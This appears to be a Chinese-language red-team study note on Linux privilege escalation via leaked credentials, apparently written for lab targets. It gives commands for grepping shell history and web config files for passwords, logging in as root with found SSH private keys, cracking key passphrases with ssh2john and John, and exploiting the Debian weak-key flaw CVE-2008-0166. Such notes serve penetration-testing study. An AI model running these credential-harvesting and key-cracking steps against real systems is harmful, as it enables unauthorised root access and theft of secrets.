


# 前言：

这是红队笔记第五部分：信息泄露与敏感凭据

**核心逻辑**：系统本身可能固若金汤，但“人”是会犯错的。管理员可能会为了方便而直接在命令行输密码，或者把备份文件随手乱扔。

这一章我们专注于如何通过“枚举”和“翻找”来拿到通往 root 的钥匙。


# 实战：

情况一：历史记录文件泄露提权 (Bash History)
-----------------------------

**利用场景**：管理员在维护系统时，有时会偷懒直接在命令行里带上密码，或者在尝试登录数据库、远程服务器时输入了错误的命令。

**实战操作**：拿到 Shell 后，第一时间检查当前用户及其他可读目录下的历史记录：

```bash
history # 列出命令
cat ~/.bash_history
cat ~/.nano_history
cat ~/.viminfo
```

* **重点搜索关键词**： `grep -E "password|pass|pwd|admin|mysql|ssh" ~/.bash_history`

* **实例**：你可能会发现这样一行：`mysql -u root -pMySecretPassword123`。你就拿到了数据库甚至可能是系统通用的 root 密码。

## 情况二：配置文件与备份文件提权

**利用场景**：Web 网站（如 WordPress）的数据库连接文件、系统的备份压缩包（`.bak`, `.zip`, `.tar.gz`）经常包含明文凭据。



这里就是查看了vpn的配置文件找到关键信息

其余我们还可以通过下面方式去寻找:

- 检查 Web 目录：

```bash
grep -i "password" /var/www/html/config.php
grep -i "db_pass" /var/www/html/wp-config.php
```

- **检查系统日志**：有些程序员会将调试信息（包含密码）直接打入 `/var/log/` 下的自定义日志中。

情况三：SSH 私钥敏感信息提权
----------------

**利用场景**：你在某个用户的家目录下发现了一个隐藏文件夹 `.ssh`，并且里面竟然有一个 `id_rsa`（私钥）文件且**你居然有读权限**。

通常是rsa的私钥，读完之后尝试以root连接靶机

` ssh -i id_rsa root@目标IP`



**注意**：很多时候你拿到了 `id_rsa`，但尝试登录时系统提示 `Enter passphrase for key 'id_rsa':`。这时需要用到 `ssh2john`。

1. **将私钥转为 Hash**：在你的 Kali 机器上执行（`ssh2john` 脚本通常位于 `/usr/share/john/` 下）

2. **使用 John 进行破解**

3. **获取明文并登录**：John 跑出明文密码后，使用该密码配合私钥登录
   
   ```bash
   /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt
   john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash.txt
   chmod 600 id_rsa
   ssh -i id_rsa root@目标IP
   ```
   
   

## 情况四：可预测 PRNG 暴力破解 SSH (Debian 特色)

**PRNG** 全称是 **Pseudo-Random Number Generator**（伪随机数生成器）。

**利用场景**：CVE-2008-0166。针对老旧 Debian/Ubuntu 系统，由于随机数种子空间太小，导致生成的 SSH 密钥一共只有 32,768 种可能。所以拿到一个公钥用穷举法就能拿到相对应的私钥

### 判断能不能打：

**1.检查操作系统版本**

该漏洞主要影响 **2006 年至 2008 年** 间发布的系统：

* **Ubuntu**: 7.04, 7.10, 8.04

* **Debian**: 4.0 (Etch)

* **命令**：`cat /etc/issue` 或 `lsb_release -a`

**2.检查 OpenSSL 版本**

受影响的 OpenSSL 版本区间非常固定：

* **版本号**：`0.9.8c-1` 到 `0.9.8g-9`

* **命令**：`openssl version`
  
  

### 具体打法：

1. 去拿用户的公钥：
   
   ```bash
   cat /root/.ssh/authorized_keys
   ```

2. 下载公钥私钥库
   
   ```bash
   # 1. 创建专用目录
   sudo mkdir -p /usr/share/wordlists/debian-ssh
   # 2. 解压到该目录 
   sudo tar -jxvf debian_ssh_rsa_2048_x86.tar.bz2 -C /usr/share/wordlists/debian-ssh/
   ```

3. **寻找匹配的用户私钥**：在你的字典目录里，使用 `grep` 搜索目标公钥的指纹或部分字符串：
   
   ```bash
   grep -lr "目标公钥字符串" /usr/share/wordlists/debian-ssh/
   # 如果搜到了，那个对应的文件名（去掉 .pub 后缀）就是对应的私钥
   ```

4. 搜到私钥就登录
   
   ```bash
   chmod 600 /usr/share/wordlists/debian-ssh/某个私钥文件名
   ssh -i /usr/share/wordlists/debian-ssh/某个私钥文件名 root@目标IP
   ```

具体可以searchsploit prng随便找个脚本看具体步骤
